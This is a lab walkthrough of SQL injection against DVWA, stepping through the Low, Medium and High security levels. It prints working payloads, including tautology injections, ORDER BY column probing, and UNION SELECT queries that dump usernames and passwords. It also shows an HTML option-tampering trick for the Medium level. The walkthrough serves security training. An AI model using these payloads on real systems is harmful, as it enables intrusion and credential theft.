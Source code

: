 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> ### Objective
> There are 5 users in the database, with id's from 1 to 5. Your mission... to steal their passwords via SQLi.

## Security Level: Low
> The SQL query uses RAW input that is directly controlled by the attacker. All they need to-do is escape the query and then they are able to execute any SQL query they wish.
> Spoiler: ?id=a' UNION SELECT "text1","text2";-- -&Submit=Submit.

![1](https://github.com/Knign/Write-ups/assets/110326359/e9488e50-a295-4445-92e8-ee26e477daaa)

We can provide a user ID `1` to the application.

![2](https://github.com/Knign/Write-ups/assets/110326359/6812920c-1919-4b9a-8f8f-6a8997d27876)

So the user input is inserted in the following query:

```
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```
Let's check the source code to see how the application behaves.

![3](https://github.com/Knign/Write-ups/assets/110326359/1c4a41e0-1808-41ca-abb9-32883f28294a)

As we can see, the user input is not sanitized in any way. This is what leaves an application vulnerable to SQLi.

Let's provide the following input:

```
1' OR '1'='1
```

Our input causes the application to create the following query:

```
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
```

As 1 is always equal to 1,  all the users first and last name will be output to the page regardless of whether their id is 1 or not.

![4](https://github.com/Knign/Write-ups/assets/110326359/1a0694a8-b898-4d7e-b214-a034519825fc)

Our job in not done though, we need to find the passwords for the users using a `UNION` attack.

For a `UNION` query to work, two key requirements must be met:
	- The individual queries must return the same number of columns.
	- The data types in each column must be compatible between the individual queries.

We can find the number of columns using the following queries provided by Portswigger one by one:
```
' ORDER BY 1#
' ORDER BY 2# 
' ORDER BY 3#
```
We will be able to notice that the first two queries do not return any result but the third query returns a blank screen.
This means that there are two columns in the current table.

Let's create our final payload:

```
' UNION SELECT user, password FROM users#
```

![5](https://github.com/Knign/Write-ups/assets/110326359/755567c6-553e-4b17-9fa7-ec061bb1a41b)

&nbsp;


## Security Level: Medium
> The medium level uses a form of SQL injection protection, with the function of "[mysql_real_escape_string()](https://secure.php.net/manual/en/function.mysql-real-escape-string.php)". However due to the SQL query not having quotes around the parameter, this will not fully protect the query from being altered.
> The text box has been replaced with a pre-defined dropdown list and uses POST to submit the form.
> Spoiler: ?id=a UNION SELECT 1,2;-- -&Submit=Submit.

![6](https://github.com/Knign/Write-ups/assets/110326359/e39d6f7b-43ec-4911-b9cc-b66ffc775028)

- Let's first check the source code.

![7](https://github.com/Knign/Write-ups/assets/110326359/c97287bc-87c5-4aef-b115-a098d7bd625a)

In this level our input is not inserted into quotes.

We can inspect the code for more information.

![8](https://github.com/Knign/Write-ups/assets/110326359/f34f3bc2-2d37-4ead-93be-d7e5c7b3a154)

Let's change the `<option>` tag to the following value:

```
<option value="1 OR 1=1">1 OR 1=1</option>
```

![9](https://github.com/Knign/Write-ups/assets/110326359/042d2955-9edb-466d-b046-f32da4b3dc19)

In order to retrieve the passwords, we can set the `<option>` tag to the following value:

```
<option value="1 UNION SELECT user, password FROM users#">1 UNION SELECT user, password FROM users#</option>
```

![10](https://github.com/Knign/Write-ups/assets/110326359/d218c485-00c4-4f96-bff1-f06d228f94d5)

&nbsp;


## Security Level: High
> This is very similar to the low level, however this time the attacker is inputting the value in a different manner. The input values are being transferred to the vulnerable query via session variables using another page, rather than a direct GET request.
> Spoiler: ID: a' UNION SELECT "text1","text2";-- -&Submit=Submit.

![11](https://github.com/Knign/Write-ups/assets/110326359/bdc9100f-4781-4b24-a326-4459cff1fa83)

Let's check the source code.

![12](https://github.com/Knign/Write-ups/assets/110326359/6b80b238-038e-4d03-aed2-80ab0cd2a2f3)

The application treats our input the same way it did in the low security level.

That means the same payload as the low security level should work in this level.

```
' UNION SELECT user, password FROM users#
```

![13](https://github.com/Knign/Write-ups/assets/110326359/2d077567-4ce3-4bb9-a7d6-377d398ed312)
